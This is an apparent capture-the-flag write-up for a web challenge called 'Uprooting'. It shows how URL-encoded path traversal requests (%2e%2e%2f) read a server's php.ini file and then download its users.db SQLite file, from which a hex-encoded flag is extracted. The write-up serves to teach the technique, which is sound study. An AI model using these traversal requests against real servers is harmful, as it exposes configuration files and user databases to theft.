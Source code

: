 **Name**: Uprooting  
**Points**: 600  
**Instructions**: There is a website running at http://challenges.runesec.com:53945. Misconfigurations sometimes kill the cats  
**Hint**: Some things are just relative...  

### Exploration
- From the name of this challenge and the given hint, we can guess that the website provided is vulnerable to [path traversal](https://www.owasp.org/index.php/Path_Traversal) attacks.  
- We are given a login interface (Username & Password.) We attempt to login, and as expected, we can't go through, but we get the following message from `/login.php`:  
> Cannot access php config file  

- Based on the instructions for this challenge, and the message we get when we attempt to login, we should start by looking for a PHP configuration file.

### Exploitation
The default configuration file for PHP is named `php.ini`. We can try finding it using relative path traversals.  
- 1st attempt: `/php.ini`  
- 2nd attempt: `/../php.ini`  

*(Maybe we should URL encode `../` to `%2e%2e%2f`)*  

- 3rd attempt: `/%2e%2e%2fphp.ini`  

*(Bingo!)*  

The file has the following content:  
`database_file = "users.db";`  

No we can try find `users.db`.  

`/%2e%2e%2fusers.db` works and we get the following:  
`SQLite format 3@ -� ��@atableusersusersCREATE TABLE users (id integer, flag text) ��R	�)0x666c61677b31303465636536666138373164336365663963303865363939623133656338397d`  

We grab that hex string at the end and convert it to UTF8 to get the flag.

### Notes
We were lucky `php.ini` was only 1 level up from the directory `index.html` resides; the relative path could've been more complicated.  

The directory structure on the server was - more or less - the following:   
.  
├── webroot  
│   ├── index.html <- *we start from here*  
│   └── login.php  
├── php.ini        <- *we can get here with `../`*  
└── users.db